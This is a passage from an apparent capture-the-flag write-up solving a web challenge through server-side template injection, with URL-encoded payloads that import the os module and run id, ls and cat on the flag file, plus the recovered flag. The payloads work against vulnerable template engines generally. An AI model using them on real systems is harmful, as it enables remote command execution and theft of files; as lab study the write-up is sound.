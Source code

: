 So we proceed to apply it after URL encoding it on [CyberChef](https://gchq.github.io/CyberChef/#recipe=URL_Encode(false)&input=IHNlbGYuX19pbml0X18uX19nbG9iYWxzX18uX19idWlsdGluc19fLl9faW1wb3J0X18oJ29zJykucG9wZW4oJ2lkJykucmVhZCgpIA&oenc=65001&ieol=CRLF&oeol=CRLF). We are able to run the id command successfully.

{% raw %}
```liquid
http://94.72.112.248:10010/dashboard?username={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27id%27).read()%20}}
```
{% endraw %}


![image](https://gist.github.com/user-attachments/assets/3653abc9-fad4-4e18-b4a3-861287f50908)

We can modify it to list files in the current directory:

{% raw %}
```liquid
http://94.72.112.248:10010/dashboard?username={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27ls%27).read()%20}}
```
{% endraw %}


![image](https://gist.github.com/user-attachments/assets/3d578807-63d3-4737-bf12-0f083fda1319)

We don't get anything important. So we proceed to list files in the root directory. Here, we can see a file called `flag8c77374df5.txt`. This is our flag file.

{% raw %}
```liquid
http://94.72.112.248:10010/dashboard?username=%7B%7B%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27ls%20%20/%27).read()%20%7D%7D
```
{% endraw %}


![image](https://gist.github.com/user-attachments/assets/4eb5f8a8-ab3c-4ec0-bce8-b932976ec20a)

So we now modify the payload to show the contents of that flag file. We get our flag.

{% raw %}
```liquid
http://94.72.112.248:10010/dashboard?username={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27cat%20/flag8c77374df5.txt%27).read()%20}}
```
{% endraw %}

![image](https://gist.github.com/user-attachments/assets/d1c5849a-d5b1-49c0-91ae-967928bfd61a)

`r00t{5923df1bc0af185e7fb2ce7a7}`



## OSINT

### Grandpas 
